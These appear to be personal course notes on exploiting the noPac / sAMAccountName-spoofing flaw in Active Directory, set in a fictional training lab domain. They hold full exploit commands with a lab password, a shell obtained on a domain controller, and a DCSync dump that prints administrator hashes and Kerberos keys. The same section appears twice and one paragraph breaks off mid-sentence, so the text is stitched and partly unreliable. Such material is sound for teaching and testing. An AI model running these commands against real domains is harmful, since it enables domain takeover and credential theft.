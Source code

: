 [Sam_The_Admin vulnerability](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/sam-name-impersonation/ba-p/3042699), also called `noPac` or referred to as `SamAccountName Spoofing`
https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware
how this attack works:
- Create the initial computer account (with '$')
- Request and acquire a TGT (while the account still has '$')
- AFTER acquiring the TGT, RENAME the account to something entirely different (like "beckens")
- Request a TGS (Ticket Granting Service) ticket
- Domain Controller tries to validate:
    - Can't find the account name
    - Tries to find a matching account by appending '$'
    - This creates the vulnerability where it might incorrectly validate or create a new account and allow shell access
# Setup:
#### Ensuring Impacket is Installed

```shell-session
git clone https://github.com/SecureAuthCorp/impacket.git
```


```shell-session
python setup.py install 
```

#### Cloning the NoPac Exploit Repo

```shell-session
git clone https://github.com/Ridter/noPac.git
```
Once Impacket is installed and we ensure the repo is cloned to our attack box, we can use the scripts in the NoPac directory to check if the system is vulnerable using a scanner (`scanner.py`) then use the exploit (`noPac.py`) to gain a shell as `NT AUTHORITY/SYSTEM`. We can use the scanner with a standard domain user account to attempt to obtain a TGT from the target Domain Controller. If successful, this indicates the system is, in fact, vulnerable. We'll also notice the `ms-DS-MachineAccountQuota` number is set to 10. In some environments, an astute sysadmin may set the `ms-DS-MachineAccountQuota` value to 0. If this is the case, the attack will fail because our user will not have the rights to add a new machine account. Setting this to `0` can prevent quite 

=============================================================
# NOPAC + DCSYNC
#### Running NoPac & Getting a Shell

```shell-session
$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```


We will notice that a `semi-interactive shell session` is established with the target using [smbexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py). Keep in mind with smbexec shells we will need to use exact paths instead of navigating the directory structure using `cd`.

It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run. We can use `ls` to confirm.

#### Confirming the Location of Saved Tickets

```shell-session
$ ls

administrator_DC01.INLANEFREIGHT.local.ccache  noPac.py   requirements.txt  utils
README.md  scanner.py
```

We could then use the ccache file to perform a pass-the-ticket and perform further attacks such as DCSync. We can also use the tool with the `-dump` flag to perform a DCSync using secretsdump.py. This method would still create a ccache file on disk, which we would want to be aware of and clean up.

 `Using noPac to DCSync the Built-in Administrator Account`
```shell-session
$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

                                                                    
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] will try to impersonat administrator
[*] Alreay have user administrator ticket for target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
[*] Kerberos keys grabbed
inlanefreight.local\administrator:aes256-cts-hmac-sha1-96:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
inlanefreight.local\administrator:aes128-cts-hmac-sha1-96:95c30f88301f9fe14ef5a8103b32eb25
inlanefreight.local\administrator:des-cbc-md5:70add6e02f70321f
[*] Cleaning up...
```

# smbexec is bad for opsec

If opsec or being "quiet" is a consideration during an assessment, we would most likely want to avoid a tool like smbexec.py. The focus of this module is on tactics and techniques. We will refine our methodology as we progress in more advanced modules, but we first must obtain a solid base in enumerating and attacking Active Directory.

---

[Sam_The_Admin vulnerability](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/sam-name-impersonation/ba-p/3042699), also called `noPac` or referred to as `SamAccountName Spoofing`
https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware
how this attack works:
- Create the initial computer account (with '$')
- Request and acquire a TGT (while the account still has '$')
- AFTER acquiring the TGT, RENAME the account to something entirely different (like "beckens")
- Request a TGS (Ticket Granting Service) ticket
- Domain Controller tries to validate:
    - Can't find the account name
    - Tries to find a matching account by appending '$'
    - This creates the vulnerability where it might incorrectly validate or create a new account and allow shell access

# NOPAC + DCSYNC
#### Running NoPac & Getting a Shell

  Bleeding Edge Vulnerabilities
![](Active%20Directory/Windows/Active%20Directory/modules/OSINT/noPac_image4.gif)
```shell-session
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                               
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] will try to impersonat administrator
[*] Adding Computer Account "WIN-LWJFQMAXRVN$"
[*] MachineAccount "WIN-LWJFQMAXRVN$" password = &A#x8X^5iLva
[*] Successfully added machine account WIN-LWJFQMAXRVN$ with password &A#x8X^5iLva.
[*] WIN-LWJFQMAXRVN$ object = CN=WIN-LWJFQMAXRVN,CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
[*] WIN-LWJFQMAXRVN$ sAMAccountName == ACADEMY-EA-DC01
[*] Saving ticket in ACADEMY-EA-DC01.ccache
[*] Resting the machine account to WIN-LWJFQMAXRVN$
[*] Restored WIN-LWJFQMAXRVN$ sAMAccountName to original value
[*] Using TGT from cache
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] Saving ticket in administrator.ccache
[*] Remove ccache of ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Rename ccache with target ...
[*] Attempting to del a computer with the name: WIN-LWJFQMAXRVN$
[-] Delete computer WIN-LWJFQMAXRVN$ Failed! Maybe the current user does not have permission.
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```

We will notice that a `semi-interactive shell session` is established with the target using [smbexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py). Keep in mind with smbexec shells we will need to use exact paths instead of navigating the directory structure using `cd`.

It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run. We can use `ls` to confirm.

#### Confirming the Location of Saved Tickets

```shell-session
ls

administrator_DC01.INLANEFREIGHT.local.ccache  noPac.py   requirements.txt  utils
README.md  scanner.py
```

We could then use the ccache file to perform a pass-the-ticket and perform further attacks such as DCSync. We can also use the tool with the `-dump` flag to perform a DCSync using secretsdump.py. This method would still create a ccache file on disk, which we would want to be aware of and clean up.

#### Using noPac to DCSync the Built-in Administrator Account

  Bleeding Edge Vulnerabilities

```shell-session
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                                                    
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] will try to impersonat administrator
[*] Alreay have user administrator ticket for target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
[*] Kerberos keys grabbed
inlanefreight.local\administrator:aes256-cts-hmac-sha1-96:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
inlanefreight.local\administrator:aes128-cts-hmac-sha1-96:95c30f88301f9fe14ef5a8103b32eb25
inlanefreight.local\administrator:des-cbc-md5:70add6e02f70321f
[*] Cleaning up...
```

# smbexec is bad for opsec

If opsec or being "quiet" is a consideration during an assessment, we would most likely want to avoid a tool like smbexec.py. The focus of this module is on tactics and techniques. We will refine our methodology as we progress in more advanced modules, but we first must obtain a solid base in enumerating and attacking Active Directory.

---